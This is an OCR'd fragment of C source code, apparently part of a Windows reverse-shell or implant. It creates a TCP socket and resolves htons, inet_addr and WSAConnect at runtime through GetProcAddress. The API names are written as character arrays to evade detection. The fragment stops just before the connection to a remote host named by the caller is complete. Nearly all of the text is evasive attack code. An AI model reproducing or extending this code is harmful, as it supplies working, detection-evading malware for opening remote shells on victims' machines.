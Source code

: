     }

    wSock = _WSASocketA( AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0 );

    //
    // Dynamicaly resolve htons() function
    //
    char htons_string[] = { 'h', 't', 'o', 'n', 's', '\0' };

    u_short( WINAPI * _htons)
    (
        u_short hostshort
    );

    _htons = ( u_short(WINAPI *)
    (
        u_short hostshort
    )) _GetProcAddress( (HMODULE)ws2_32dll_base, htons_string );

    if( NULL == _htons )
    {
        // printf( "[+] Could not dynamically resolve _htons!\n" );
        return 1;
    }

    hax.sin_family = AF_INET;
    hax.sin_port = _htons(port);

    //
    // Dynamically resolve inet_addr() function
    //
    char inet_addr_string[] = { 'i', 'n', 'e', 't', '_', 'a', 'd', 'd', 'r', '\0' };

    unsigned long( WINAPI * _inet_addr)
    (
        const char *cp
    );

    _inet_addr = ( unsigned long(WINAPI *)
    (
        const char *cp
    )) _GetProcAddress( (HMODULE)ws2_32dll_base, inet_addr_string );

    if( NULL == _inet_addr )
    {
        // printf( "[+] Could not dynically resolve inet_addr!\n" );
        return 1;
    }    

    hax.sin_addr.s_addr = _inet_addr( host );

    //
    // 3. CONNECT TO A REMOTE HOST
    // Dynamically resolve WSAConnect() WinAPI
    //
    char wsaconnect_string[] = { 'W', 'S', 'A', 'C', 'o', 'n', 'n', 'e', 'c', 't', '\0' };

    int ( WINAPI * _WSAConnect)
    (
        SOCKET         s,
        const SOCKADDR *name,
        int            namelen,
        LPWSABUF       lpCallerData,
        LPWSABUF       lpCalleeData,
        LPQOS          lpSQOS,
        LPQOS          lpGQOS
    );

    _WSAConnect = ( int(WINAPI *)
    (